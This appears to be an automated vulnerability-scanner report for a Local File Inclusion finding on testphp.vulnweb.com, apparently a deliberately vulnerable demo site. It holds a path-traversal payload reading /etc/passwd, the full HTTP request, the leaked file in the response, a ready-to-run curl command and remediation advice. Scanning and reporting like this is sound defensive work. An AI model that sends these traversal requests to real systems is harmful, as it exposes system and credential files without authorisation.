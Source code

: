 ### Local File Inclusion - Linux (lfi-fuzzing-cba40f0f91bd1e73c7d927844b558ce2bf2830fa2f76c25c0b57cc2ff29c303e) found on testphp.vulnweb.com

----
**Details**: **lfi-fuzzing-cba40f0f91bd1e73c7d927844b558ce2bf2830fa2f76c25c0b57cc2ff29c303e** matched at testphp.vulnweb.com

**Protocol**: HTTP

**Full URL**: http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd

**Timestamp**: Thu Jun 12 23:21:52 +0800 WITA 2025

**Template Information**

| Key | Value |
| --- | --- |
| Name | Local File Inclusion - Linux |
| Authors | wahyuhadi |
| Tags | lfi, dast, linux |
| Severity | high |
| Description | Local File Inclusion (LFI) is a web security vulnerability that allows an attacker to include and execute files from the local server through user-controlled input. This can lead to unauthorized access to sensitive files, information disclosure, or even remote code execution (RCE) under certain conditions.<br> |
| tech | all |
| severtity | high (7.5) |
| cvss-3.1 | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| cvss-3.1-link | https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |

**Request**
```http
GET /showimage.php?file=../../etc/passwd HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Priority: u=4, i
Referer: http://testphp.vulnweb.com/AJAX/index.php


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: image/jpeg
Date: Thu, 12 Jun 2025 15:21:52 GMT
Server: nginx/1.19.0
X-Powered-By: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
nobody:x:65534:1002:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
bind:x:104:111::/var/cache/bind:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin



```
**Metadata:**

- path: ../../etc/passwd

**Fixing**

- Use Whitelisting, Allow only specific, predefined files.
- Block Directory Traversal,  Sanitize input to prevent ../ or null byte attacks.
- Use Least Privilege,  Restrict file permissions and avoid running as root.
- Monitor & Log Requests, Track suspicious activity and use a Web Application Firewall (WAF).



References: 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.5' -H 'Connection: keep-alive' -H 'Host: testphp.vulnweb.com' -H 'Priority: u=4, i' -H 'Referer: http://testphp.vulnweb.com/AJAX/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' 'http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd'
```


----

Eagle Pulsar Team :  > From Home With Love